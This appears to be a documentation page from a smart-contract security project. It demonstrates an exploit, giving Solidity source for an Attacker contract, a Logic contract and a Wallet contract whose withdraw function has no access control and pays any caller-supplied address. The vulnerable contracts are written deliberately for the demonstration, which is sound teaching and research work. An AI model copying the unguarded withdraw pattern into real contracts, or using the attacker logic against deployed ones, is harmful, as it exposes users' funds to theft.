

########################
Exploits of Figure 1
########################

**Attack Flow**

Attacker -> Logic -> Wallet --trasfer ethers--> Attacker

**Attacker Contract**

.. code-block:: Solidity
    :linenos:

    contract Attacker {
        address addr_l;
        uint count=0;
        
        constructor ( address _addr ) payable
        {
            addr_l = _addr;
        }
        
        function someFun() public
        {
            count = count+1;
            if (count<5)
            {
                Logic(addr_l).logging(this,10);
            }
        }
        
        function () payable {}
        
        function setCount()
        {
            count = 0;
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
        
    }

**Logic Contract**

.. code-block:: Solidity
    :linenos:

    contract Logic{
        
        address private addr_w;
        
        event changed(address _exec, uint  _value);
        
        function logging( address _exec, uint _value)  public
        {
            emit changed(_exec, _value );
            withdraw(_exec, _value);
        }
        
        function  withdraw( address _exec, uint _value) internal
        {
            Wallet(addr_w).withdraw(_exec, _value);
        }
        
        constructor(  address _addr ) payable {
            addr_w = _addr;
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }

**Wallet Contract**

.. code-block:: Solidity
    :linenos:

    contract Wallet {
        constructor() payable {}
        
        function withdraw( address _exec, uint _value) public
        {
            _exec.transfer(_value);
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }

**Running Screenshots**

